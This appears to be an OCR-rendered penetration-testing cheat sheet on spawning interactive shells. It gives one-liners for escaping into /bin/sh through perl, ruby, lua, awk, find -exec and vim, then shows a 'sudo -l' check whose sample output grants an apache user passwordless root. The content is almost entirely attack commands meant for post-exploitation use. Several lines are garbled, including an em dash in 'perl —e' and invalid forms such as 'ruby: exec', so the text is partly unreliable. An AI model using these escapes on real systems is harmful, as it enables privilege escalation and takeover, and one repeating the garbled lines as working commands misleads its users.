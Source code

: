 # Spawning InteractiveShells

## /bin/sh -i

```c
/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

## Perl

```c
perl —e 'exec "/bin/sh";'
```

```c
perl: exec "/bin/sh";
```

## Ruby

```c
ruby: exec "/bin/sh"
```

## Lua

```c
lua: os.execute('/bin/sh')
```

## AWK

```c
awk 'BEGIN {system("/bin/sh")}'
```

## Find

```c
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

## Using Exec To Launch A Shell

```c
find . -exec /bin/sh \; -quit
```

## VIM

```c
vim -c ':!/bin/sh'
```

### Vim Escape

```c
vim
:set shell=/bin/sh
:shell
```

## Execution Permissions Considerations

```c
ls -la <path/to/fileorbinary>
```

#### Sudo -l

```c
sudo -l
Matching Defaults entries for apache on ILF-WebSrv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User apache may run the following commands on ILF-WebSrv:
    (ALL : ALL) NOPASSWD: ALL
```

